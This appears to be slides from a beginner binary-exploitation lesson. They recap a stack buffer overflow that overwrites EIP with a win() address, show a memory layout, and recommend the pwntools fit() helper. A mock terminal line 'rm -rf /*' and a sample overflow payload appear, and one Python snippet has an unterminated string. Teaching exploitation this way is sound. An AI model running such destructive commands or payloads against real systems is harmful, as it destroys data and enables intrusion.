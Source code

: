 
### last week recap
* last week we had a nice win() function to jump to

* so we overwrite EIP with that function pointer

```php
win is at 0xDEADBEEF. gimme some data though
> AAAAAAAAAAAAAAAAAAA\xEF\xBE\xAD\xDE

wait how'd you get here?
$ rm -rf /*
```

---

### last week recap 
what does it look like in memory

```php
    0x18  [   ARGS   ] 
    0x14  [ DEADBEEF ] <- EIP
    0x10  [ 41414141 ] <- EBP
    0x0C  [ 41414141 ] 
    0x08  [ 41414141 ]
    0x04  [ 41414141 ]
    0x00  [ 41414141 ] <- our buffer
```

---

### some suggestions
dont hardcode stuff

```python
payload = fit({10: b'abcd', 100: b'efgh'}, filler=b'A')

# kinda equivalent to
payload = b'A' * 10
payload += b'abcd'
payload += b'A' * (100 - len(payload))
payload += b'efgh

# but much more readable
```

---

### why wasn't this taught last week
you should understand what the tooling does

* there's a lot the tooling can do
* but it's important to understand the fundamentals of why
* e.g. `shellcraft.i386.linux.sh()`
* don't use it

---